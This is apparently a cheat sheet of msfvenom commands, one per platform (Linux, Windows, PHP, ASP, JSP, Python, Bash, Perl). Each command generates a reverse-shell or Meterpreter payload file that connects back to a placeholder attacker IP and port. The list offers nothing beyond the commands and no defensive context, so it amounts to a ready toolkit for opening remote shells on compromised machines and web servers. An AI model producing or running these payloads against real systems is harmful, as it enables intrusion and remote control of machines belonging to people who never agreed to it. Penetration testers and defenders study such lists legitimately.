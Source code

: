 

### Linux

```bash
msfvenom -p linux/x86/meterpreter/reverse_tcp LHOST=Your IP LPORT=Your Port -f elf  -o ./shell.elf
```

### Windows

```bash
msfvenom -p windows/meterpreter/reverse_tcp LHOST=Your IP LPORT= Your Port -f exe -o ./shell.exe
```

### PHP

```bash
msfvenom -p php/meterpreter_reverse_tcp LHOST=Your IP LPORT=Your Port -f raw -o ./shell.php
```

### ASP

```bash
msfvenom -p windows/meterpreter/reverse_tcp LHOST=Your IP LPORT=Your Port -f asp -o ./shell.asp
```

### JSP

```bash
msfvenom -p java/jsp_shell_reverse_tcp LHOST=Your IP LPORT=Your Port -f raw -o ./shell.jsp
```

### Python

```bash
msfvenom -p cmd/unix/reverse_python LHOST=Your IP LPORT= Your Port -f raw -o ./shell.py
```

### Bash

```bash
msfvenom -p cmd/unix/reverse_bash LHOST=Your IP LPORT= Your Port -f raw -o ./shell.sh
```

### Perl

```bash
msfvenom -p cmd/unix/reverse_perl LHOST=Your IP LPORT= Your Port -f raw -o ./shell.pl
```

